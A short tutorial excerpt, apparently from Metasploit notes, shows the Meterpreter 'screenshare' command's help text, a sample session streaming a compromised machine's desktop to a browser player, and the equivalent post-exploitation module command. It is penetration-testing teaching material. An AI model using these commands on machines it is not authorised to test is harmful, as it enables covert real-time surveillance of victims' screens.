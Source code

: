 # Metasploit

## 6.2 - Screenshare

- You can interact the screenshare through the web browser.

```
meterpreter > screenshare -h
Usage: screenshare [options]

View the current interactive desktop in real time.

OPTIONS:

    -d   The stream duration in seconds (Default: 1800)
    -h   Help Banner.
    -q   The JPEG image quality (Default: '50')
    -s   The stream file path (Default: 'FteINQtk.jpeg')
    -t   The stream player path (Default: tFLOibzd.html)
    -v   Automatically view the stream (Default: 'true')

meterpreter > screenshare
[*] Preparing player...
[*] Opening player at: /home/user/CTslvACC.html
[*] Streaming...
```

```
meterpreter > run post/multi/manage/screenshare
```